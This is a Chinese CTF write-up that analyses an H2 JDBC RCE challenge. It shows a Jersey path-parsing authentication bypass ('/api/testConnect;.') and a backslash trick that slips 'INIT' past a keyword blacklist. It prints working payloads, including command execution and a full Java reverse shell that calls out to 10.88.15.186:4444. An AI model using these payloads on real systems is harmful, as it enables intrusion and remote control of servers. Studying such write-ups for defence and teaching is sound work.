# 从DASCTF 2025上半年赛-泽西岛开始的H2 JDBC RCE漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/18313  
> **文章ID**: 18313

---

# 环境搭建

由于需要进行本地调试，这里进行tomcat本地环境搭建。

题目给了一个war包，将其放入tomcat的webapp中，并在startup.bat中加入debug。

```
SET CATALINA_OPTS=-server -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5005
```

启动环境即可开启远程调试。

此外在idea中需要将lib以及classes添加为库，再开启jvm调试。

# 绕过鉴权

首先看到web.xml，其中有一些配置信息。

```
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd" version="3.1">
  <display-name>Archetype Created Web Application</display-name>
  <servlet>
    <servlet-name>Jersey Web Application</servlet-name>
    <servlet-class>org.glassfish.jersey.servlet.ServletContainer</servlet-class>
    <init-param>
      <param-name>jersey.config.server.provider.packages</param-name>
      <param-value>com.example.gfctf</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
  </servlet>


  <servlet-mapping>
    <servlet-name>Jersey Web Application</servlet-name>
    <url-pattern>/api/*</url-pattern>
  </servlet-mapping>

  <error-page>
    <error-code>404</error-code>
    <location>/404.jsp</location>
  </error-page>
  <error-page>
    <error-code>500</error-code>
    <location>/500.jsp</location>
  </error-page>
  <error-page>
    <error-code>401</error-code>
    <location>/401.jsp</location>
  </error-page>
  <error-page>
    <error-code>405</error-code>
    <location>/405.jsp</location>
  </error-page>
</web-app>
```

从中我们可以发现该项目是使用的`Jersey`框架，并且定义了 Servlet的映射规则。

然后可以看到`AuthenticationFilter`类，这个类是一个拦截器，并且实现了一些鉴权的功能。



通过解读代码，可以发现拦截器验证JWT验证的条件为当路由不在拦截器里并且路由不为文件，也就是说这俩个条件任意满足一个即可不触发JWT的验证，首先知道他的白名单为`"", "test", "login", "register"`，这些路由是不需要进行JWT验证的，而触发JDBC的路由为`/testConnect`很明显是不在白名单里的，因此可以尝试让`isBaseFile`返回ture。

```
    private static boolean isBaseFile(String path) {
        return !path.contains("/") && path.contains(".");
    }
```

可以看到`isBaseFile`的判断，需要路径中不包含/并且路径包含.字符。

这里利用的是`Jersey`框架的路径解析的问题进行绕过的，可以看到`filter`方法中的第一行。

```
String path = containerRequestContext.getUriInfo().getPath();
```

这是基于`ContainerRequestContext`实现的获取请求Path的方法，并且使用的是`getUriInfo().getPath();`这会直接返回请求的路径部分，比如请求为<http://127.0.0.1/api/test;test，将会直接返回api/test;test/，因此可以利用该特性来进行绕过鉴权的操作。>

这里使用;来截断，并且使用.让`isBaseFile`为true，从而绕过鉴权

```
/api/testConnect;.
```





# H2 JDBC RCE原理+payload构造

绕过鉴权之后，可以访问到目标路由`/testConnect`了，看到`JDBCServlet`类。

```
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.example.gfctf.controller;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;
import java.util.Iterator;
import java.util.List;
import java.util.stream.Collectors;
import java.util.stream.Stream;
import javax.ws.rs.FormParam;
import javax.ws.rs.POST;
import javax.ws.rs.Path;
import javax.ws.rs.Produces;

@Path("/testConnect")
public class JDBCServlet {
    private static final List<String> DEFAULT_JDBC_DISALLOWED_PARAMETERS = (List)Stream.of("allowLoadLocalInfileInPath", "allowUrlInLocalInfile", "allowPublicKeyRetrieval", "autoDeserialize", "queryInterceptors", "allowLoadLocalInfile", "allowMultiQueries", "init", "script", "shutdown").map(String::toUpperCase).collect(Collectors.toList());

    public JDBCServlet() {
    }

    public static void validateJdbcUrl(String jdbcUrl) throws IllegalArgumentException {
        Iterator var1 = DEFAULT_JDBC_DISALLOWED_PARAMETERS.iterator();

        String disallowed;
        do {
            if (!var1.hasNext()) {
                return;
            }

            disallowed = (String)var1.next();
        } while(!jdbcUrl.toUpperCase().contains(disallowed));

        throw new IllegalArgumentException("JDBC URL " + jdbcUrl + " is invalid");
    }

    public static boolean testConnect(String jdbcUrl) {
        try {
            validateJdbcUrl(jdbcUrl);
            Class.forName("org.h2.Driver");
            Connection connection = DriverManager.getConnection(jdbcUrl);

            boolean var2;
            try {
                var2 = true;
            } catch (Throwable var5) {
                if (connection != null) {
                    try {
                        connection.close();
                    } catch (Throwable var4) {
                        var5.addSuppressed(var4);
                    }
                }

                throw var5;
            }

            if (connection != null) {
                connection.close();
            }

            return var2;
        } catch (SQLException | ClassNotFoundException | IllegalArgumentException var6) {
            Exception e = var6;
            throw new RuntimeException(e);
        }
    }

    @POST
    @Produces({"text/plain"})
    public String testConnectWithParams(@FormParam("jdbcUrl") String jdbcUrl) {
        if (jdbcUrl != null && !jdbcUrl.isEmpty()) {
            if (!jdbcUrl.startsWith("jdbc:h2")) {
                throw new IllegalArgumentException("no supported JDBC URL");
            } else {
                jdbcUrl = jdbcUrl + ";FORBID_CREATION=TRUE";
                return testConnect(jdbcUrl) ? "Connection successful" : "Connection failed";
            }
        } else {
            throw new IllegalArgumentException("jdbcUrl is null or empty");
        }
    }
}
```

这段代码主要实现了数据库的连接测试操作，并且其中有一些过滤以及限制，首先其接收`jdbcUrl`参数，并且要求其以`jdbc:h2`开头，然后会在结尾加上`;FORBID_CREATION=TRUE`这一字符串，这段字符主要作用是禁止创建数据库，这里是需要绕过的，看p神的文章中是因为只要将分号使用反斜线转义，分号就会变成一个普通字符串。

然后会进行一个黑名单的过滤操作，要求不能使用黑名单中的字符，这里主要就是要绕过INIT这个字符，从而进行RCE，这里使用的是/进行绕过，具体原理在下面debug过程中进行分析。

payload如下：

```
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;IN\IT=CREATE ALIAS EXEC AS 'void cmd_exec(String cmd) throws java.lang.Exception {Runtime.getRuntime().exec(cmd)\;}'\;CALL EXEC ('cmd /c calc')\;AUTHZPWD=\
```

## H2 JDBC RCE \绕过原理

这里的H2 JDBC RCE是来自于[dataease](https://github.com/dataease/dataease)这的fix。



可以看到这里是将\进行了过滤操作，因此可以猜测\是可以进行RCE绕过的，这里来分析一下原理。

传入参数并且在validateJdbcUrl处打下断点



可以跟到这个方法中进行分析



这里将上面的黑名单字符串与我们传入的字符串进行对比，如果有相匹配的就会爆出异常，如果没有就会正常走出当前方法。



提前在`DriverManager`方法中打下断点，因为`DriverManager.getConnection`这里是无法打下断点的。



跳转到`DriverManager`中，一直步过，这些都是对url和类加载器进行一些操作，直接过掉就行。



直到`aDriver.driver.connect`，这里开始尝试连接，步入。



继续步入到JdbcConnection中。



继续步入到`ConnectionInfo`。



一直步过，这里都是对url那些进行检查的。



一直过到`readSettingsFromURL`这个方法会从传入的数据库连接 URL 中解析并提取连接所需的其他配置或设置。



这个H2的RCE漏洞的问题就是在于这个字符串提取和处理这里，进入`arraySplit`方法中。



可以发现var0就是传入的url字符串，并且其中的`INIT`还处于`IN\IT`字符，继续向下步过到处理INIT时。



可以看到`IN\IT`中的`\`已经消失不见了，这是因为它会“转义”紧随其后的字符。这样，`\I` 会被当作普通字符 `I`，而不是转义符。`StringBuilder` 中的 `var5` 会将 `I` 直接加进去，而不是跳过，从而实现了RCE，以及正常的命令执行。



## 反射payload

反弹shell payload

```
jdbcUrl=jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;IN\IT=CREATE ALIAS REV_SHELL AS 'void rev_shell(String host, String port) throws java.lang.Exception {String shell=System.getProperty("os.name").toLowerCase().contains("win")?"cmd":"sh"\;Process p=new ProcessBuilder(shell).redirectErrorStream(true).start()\;java.net.Socket s=new java.net.Socket(host,Integer.valueOf(port))\;java.io.InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream()\;java.io.OutputStream po=p.getOutputStream(),so=s.getOutputStream()\;while(!s.isClosed()){while(pi.available()>0){so.write(pi.read())\;}while(pe.available()>0){so.write(pe.read())\;}while(si.available()>0){po.write(si.read())\;}so.flush()\;po.flush()\;Thread.sleep(50)\;try{p.exitValue()\;break\;}catch(Exception e){}}p.destroy()\;s.close()\;}'\;CALL REV_SHELL ('10.88.15.186', '4444')\;AUTHZPWD=\
```



得到flag



# 参考文章

<https://forum.butian.net/share/2569#/>

<https://github.com/dataease/dataease/commit/dd35752f298b1a4079d9993b622220d321b0c8a6#/>

<https://www.leavesongs.com/PENETRATION/talk-about-h2database-rce.html#/>  
<https://mp.weixin.qq.com/s/laMT4-M00t8xAY_Autdb3A>
